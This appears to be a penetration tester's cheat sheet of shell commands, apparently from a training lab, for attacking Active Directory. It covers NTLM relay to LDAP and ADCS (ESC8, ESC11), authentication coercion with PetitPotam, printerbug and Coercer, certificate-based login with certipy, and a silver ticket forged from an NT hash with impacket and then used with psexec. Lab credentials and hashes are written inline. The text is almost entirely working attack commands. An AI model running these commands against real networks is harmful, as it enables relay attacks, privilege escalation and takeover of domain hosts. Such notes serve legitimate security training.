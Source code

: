 ```bash
# PC account escalate
impacket-ntlmrelayx -t ldap://172.16.117.3 -smb2support --escalate-user 'plaintext$' --no-dump -debug

# start relay
python3 PetitPotam.py -u 'plaintext$' -p 'Password123!' -d 'lab.local' <My_IP> 172.16.119.70
coercer scan -t 172.16.119.70 -u 'plaintext$' -p 'MTXr3(GW)lnljOj' -d INLANEFREIGHT.LOCAL -v
python3 printerbug.py inlanefreight/plaintext$:'MTXr3(GW)lnljOj'@172.16.119.70 <My_IP>
```

### ESC 8
```bash
# HTTP Endpoint
curl -I http://172.16.117.3/certsrv/

# Relay
impacket-ntlmrelayx -t http://172.16.117.3/certsrv/certfnsh.asp -smb2support --adcs --template "Machine"
# Authentication Coercion
coercer scan -t 172.16.119.70 -u 'plaintext$' -p 'MTXr3(GW)lnljOj' -d INLANEFREIGHT.LOCAL -v
python3 printerbug.py inlanefreight/plaintext$:'MTXr3(GW)lnljOj'@172.16.119.70 <My_IP>
# pfx

echo -n "MIIRPQIBAzCCEPcGCSqGSIb3DQEHAaCCEOgEghDkMIIQ4DCCBxcGCSqGSIb3DQEHBqCCBwgwggcEAgEAMI<SNIP>U6EWbi/ttH4BAjUKtJ9ygRfRg==" | base64 -d > ws01.pfx
```
```bash
certipy relay -target "http://172.16.119.3" -template Machinene

coercer scan -t 172.16.119.70 -u 'plaintext$' -p 'MTXr3(GW)lnljOj' -d INLANEFREIGHT.LOCAL -v

certipy auth -pfx backup01.pfx -dc-ip 172.16.119.3
```
Silver Ticket 
```bash
impacket-lookupsid 'INLANEFREIGHT.LOCAL\backup01$'@172.16.119.3 -hashes :11d2b884b8b3383ace4a68b8e1d23a8f
impacket-ticketer -nthash 11d2b884b8b3383ace4a68b8e1d23a8f -domain-sid S-1-5-21-1207890233-375443991-2397730614 -domain inlanefreight.local -spn cifs/backup01.inlanefreight.local Administrator

# vim /etc/hosts to backup01.inlanefreight.local
KRB5CCNAME=Administrator.ccache impacket-psexec -k -no-pass backup01.inlanefreight.local
```

### ESC11
```bash
certipy relay -target "rpc://172.16.119.3" -ca "INLANEFREIGHT-DC01-CA"

coercer scan -t 172.16.119.70 -u 'plaintext$' -p 'MTXr3(GW)lnljOj' -d INLANEFREIGHT.LOCAL -v

certipy auth -pfx backup01.pfx -dc-ip 172.16.119.3
```

